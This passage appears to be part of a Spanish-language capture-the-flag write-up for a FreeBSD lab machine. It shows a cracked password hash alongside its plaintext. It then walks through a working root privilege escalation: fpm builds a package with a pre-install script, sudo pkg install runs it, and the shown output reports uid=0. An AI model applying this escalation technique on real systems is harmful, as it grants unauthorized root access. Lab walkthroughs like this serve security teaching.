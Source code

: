 ```shell
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
```

Al revisar que permisos tenemos vemos que podemos ejecutar pkg install y update dentro la máquina, para esoo buscamos en gtfobins y con esto podemos lograr hacernos con root.

```shell
gu3ro@parrot$ TF=$(mktemp -d)
gu3ro@parrot$ echo 'id' > $TF/x.sh
gu3ro@parrot$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
oxdf@parrot$ file x-1.0.txz
x-1.0.txz: XZ compressed data
```
```shell
jamie@Schooled:/tmp $ ls
mysql.sock		mysql.sock.lock		mysqlx.sock		mysqlx.sock.lock	tmp.FkdFM3ed		tmp.yMINrQt9		x-1.0.txz
jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz 
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
	x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
Extracting x-1.0: 100%
```
